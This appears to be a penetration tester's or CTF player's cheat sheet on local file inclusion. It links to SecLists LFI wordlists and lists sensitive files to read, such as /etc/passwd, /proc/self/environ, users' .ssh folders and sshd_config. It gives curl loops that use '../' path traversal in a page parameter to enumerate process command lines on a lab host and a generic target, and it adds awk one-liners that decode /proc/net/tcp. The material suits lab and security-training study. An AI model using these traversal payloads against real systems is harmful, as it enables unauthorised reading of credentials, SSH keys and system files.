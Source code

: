 
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI


proc/self/cmdline
proc/self/environ
/proc/self/cwd/app.py

/etc/passwd get usernames
/home/username/.ssh/

/etc/ssh/sshd_config for other ssh key locations like ecdsa or ed25519

/proc/self/status
to get process ids
loop through id's to get info on odd service on odd port
/proc/pid/net/tcp

`for i in $(seq 900 1000); do curl [http://airplane.htb](http://airplane.htb):8000/?page=../../../../proc/$i/cmdline -o -; echo " PID => $i"; done`

`seq 1 10000 | while read pid;do data=$(curl -s --output - "http://target/[vuln.php](https://vuln.php)?page=../../../../../../proc/${pid}/cmdline" 2>/dev/null); echo "pid($pid) -- $data"; done | tee [proc.pid_enum.cmdline.txt](https://proc.pid_enum.cmdline.txt)`


### Netstat similar data
`/proc/net/tcp` TCP connection data
`/proc/net/udp` UDP connection data
`/proc/net/unix` UNIX socket data

IP addresses and ports will be in hex format
```bash
grep -v "rem_address" /proc/net/tcp  | awk  '{x=strtonum("0x"substr($3,index($3,":")-2,2)); for (i=5; i>0; i-=2) x = x"."strtonum("0x"substr($3,i,2))}{print x":"strtonum("0x"substr($3,index($3,":")+1,4))}'
```

if on system where gnu awk is not used
```bash
grep -v "rem_address" /proc/net/tcp  | awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
} {x=hextodec(substr($2,index($2,":")-2,2)); for (i=5; i>0; i-=2) x = x"."hextodec(substr($2,i,2))}{print x":"hextodec(substr($2,index($2,":")+1,4))}'
```
For info on local ports, like listening ports - replace `$2` with `$1` to get the local address column

